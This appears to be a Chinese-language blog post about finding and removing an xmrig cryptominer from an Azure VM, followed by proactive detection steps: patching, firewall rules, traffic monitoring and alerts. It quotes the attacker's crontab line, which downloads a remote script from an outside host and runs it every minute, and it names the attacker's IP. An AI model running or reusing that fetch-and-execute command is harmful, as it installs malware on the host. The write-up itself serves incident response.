





# 云安全的重要性：记录一次云主机被挖矿攻防

最近发现我的一台Azure VM 超出150美元的月度限额导致VM 直接关机。

通过Azure Monitor 上 可以看出一段时间内CPU，Network Out Total 严重异常，出口流量暴增，CPU 近100%。

{:height="50%" width="70%"}

重新开机并立即关闭80，443 端口，并限定了22 端口仅限本机访问， 然后SSH上去开始尝试寻找问题原因。

1. 首先通过 **htop** 检查导致高CPU的进程,发现名为**xmrig**的进程导致100%

2. 检查crontab 查看是否有自启动的job，果然发现有，杀掉进程后并删除crontab job。

```sh
*/1 * * * * cd /tmp/node-v10.15.3-linux-x64/bin;rm -rf cc.sh;
wget http://8306.org/cc.sh;chmod 777 cc.sh;bash cc.sh /dev/null 2>&1

```

## 如果从SRE角度去主动侦测

上述的步骤是事后诸葛亮， 是被动的应对，决定尝试一下主动侦测并提前响应，以免像我一样早上上面的损失。

- 升级系统补丁

可以选择定时任务去执行下面的命令也可以在配置云主机的时候设置自动升级补丁包

```sh
sudo apt upgrade && sudo apt update
```

- 设置安全组和Inbound/Outbound 规则

- 通过监控工具主动发现异常

{:height="50%" width="70%"}

从这里可以看到这个**xmrig**的进程通过13333这个端口从我的 Azure VM 跟目标机器 101.32.200.219 这台机器进行通信。

通过IP 我们可以定位出目标IP 对应的ISP 是腾讯云上的一台云主机。

{:height="50%" width="70%"}

到这一步，我在想，是不是我们遇到重大损失的时候就可以报案并联系IPS运营商去协助从源头上解决问题。

当然，对于小损失，像我这样的，我们可以吃一堑长一智，至少可以把对方的IP 加到inbound/outbound blocklist里。



- 设置Alert 主动通知和干预

因为此次攻击主要是利用云主机资源用来挖矿，对我的账单影响比较大的地方是出口流量费用。为了避免损失，我结合Azure 的Metrics 设置了
Alert。

{:height="50%" width="70%"}

一旦发现一段时间内的流量异常，就通过邮件发送通知，并自动执行任务暂时关闭主机，阻止近一步的损失。

## 还有什么可以做的？

欢迎大家留言，提出保障云主机安全的见解和建议。
